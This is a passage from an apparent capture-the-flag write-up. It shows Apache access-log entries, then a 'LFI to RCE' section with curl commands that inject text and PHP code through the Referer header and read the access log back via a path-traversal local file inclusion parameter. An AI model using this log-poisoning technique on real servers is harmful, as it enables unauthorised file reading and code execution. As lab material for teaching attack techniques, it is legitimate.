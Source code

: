 ```console
84.109.24.109 - - [14/Feb/2020:21:02:27 +0000] "GET /gallery/78.jpg HTTP/1.1" 200 4555 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:27 +0000] "GET /gallery/schnitzel.jpg HTTP/1.1" 200 197961 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:27 +0000] "GET /gallery/alpha.jpg HTTP/1.1" 200 24565 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:27 +0000] "GET /gallery/joni.jpg HTTP/1.1" 200 116148 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:28 +0000] "GET /gallery/game.jpg HTTP/1.1" 200 39451 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:28 +0000] "GET /gallery/tall.jpg HTTP/1.1" 200 38880 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:27 +0000] "GET /gallery/shpig.jpg HTTP/1.1" 200 251051 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:28 +0000] "GET /gallery/fatich.jpg HTTP/1.1" 200 44868 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:28 +0000] "GET /gallery/trick.jpg HTTP/1.1" 200 327764 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:28 +0000] "GET /gallery/gateway.jpg HTTP/1.1" 200 11024 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:28 +0000] "GET /gallery/shay.jpg HTTP/1.1" 200 32417 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:33 +0000] "GET /test.php?file=gallery.html HTTP/1.1" 200 828 "http://13.67.133.176/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
```

### LFI to RCE

As seen above, when a user makes a request to a webpage, several user attributes are written to the log. For example, the referrer: 
```console
root@kali:/media/sf_CTFs/hoshen/3# curl http://13.67.133.176/test.php?file=a --referer "I can control this"
root@kali:/media/sf_CTFs/hoshen/3# curl -s "http://13.67.133.176/test.php?file=../../../../var/log/apache2/access.log" | grep control
83.132.148.425 - - [14/Feb/2020:21:17:50 +0000] "GET /test.php?file=a HTTP/1.1" 200 147 "I can control this" "curl/7.64.0"
```

We can even execute PHP code under the correct circumstances:
```console
root@kali:/media/sf_CTFs/hoshen/3# curl http://13.67.133.176/test.php?file=a --referer "<?php echo 'This is a test'; ?>"
root@kali:/media/sf_CTFs/hoshen/3# curl -s "http://13.67.133.176/test.php?file=../../../../var/log/apache2/access.log" | grep test
83.132.148.425 - - [14/Feb/2020:21:40:03 +0000] "GET /test.php?file=a HTTP/1.1" 200 147 "This is a test" "curl/7.64.0"
```
